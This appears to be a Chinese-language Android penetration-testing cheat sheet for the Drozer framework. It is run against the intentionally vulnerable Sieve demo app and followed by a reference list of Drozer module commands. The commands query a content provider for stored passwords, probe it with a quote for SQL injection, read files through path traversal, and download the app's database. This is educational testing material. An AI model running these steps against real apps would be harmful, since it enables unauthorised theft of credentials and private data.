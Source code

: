 ```
> run app.package.attacksurface com.mwr.example.sieve   //确定攻击面
> run app.activity.info -a com.mwr.example.sieve         //获取activity信息
> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList     //启动pwlist
> run app.provider.info -a com.mwr.example.sieve        //提供商信息
> run scanner.provider.finduris -a com.mwr.example.sieve        //扫描所有能访问地址
> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/--vertical  //查看DBContentProvider/Passwords这条可执行地址
> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"   //检测注入
> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts    //查看读权限数据
> run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db //下载数据
> run scanner.provider.injection -a com.mwr.example.sieve       //扫描注入地址
> run scanner.provider.traversal -a com.mwr.example.sieve
> run app.service.info -a com.mwr.example.sieve         //查看服务

```

我们在测试过程中，常用测试指令：

 

四大组件模块：

```
(1)Activity:
app.activity.forintent -- 找到可以处理已指定的包
app.activity.info -- 获取activity组件信息
app.activity.start -- 开启activity组件
scanner.activity.browsable -- 获取可从web浏览器调用的所有可浏览的activity组件
 
(2)Service:
app.service.info -- 获取service组件信息
app.service.send -- 向服务组件发送消息并显示答复
app.service.start -- 开启service组件
app.service.stop -- 停止service组件
 
(3)Content Provider:
app.provider.columns -- 在内容提供程序中列出列
app.provider.delete -- 在内容提供程序中删除
app.provider.download -- 在内容提供程序中下载支持文件
app.provider.finduri -- 在包中查找引用的内容URIS
app.provider.info -- 获取Content Provider组件信息
app.provider.insert -- 插入到Content Provider组件中
app.provider.query -- 查询Content Provider组件
app.provider.read -- 从支持文件的Content Provider读取
app.provider.update -- 更新Content Provider的记录
scanner.provider.finduris -- 搜索可从上下文中查询的Content Provider
scanner.provider.injection -- 测试Content Provider的注入漏洞
scanner.provider.sqltables -- 查找可通过SQL注入漏洞访问的表
scanner.provider.traversal -- 测试Content Provider的基本目录遍历漏洞
 
(4)Broadcast Receivers:
app.broadcast.info -- 获取有关广播接收器的信息
app.broadcast.send -- 带目的发送广播
app.broadcast.sniff -- 注册一个能嗅出特定意图的广播接收器

```
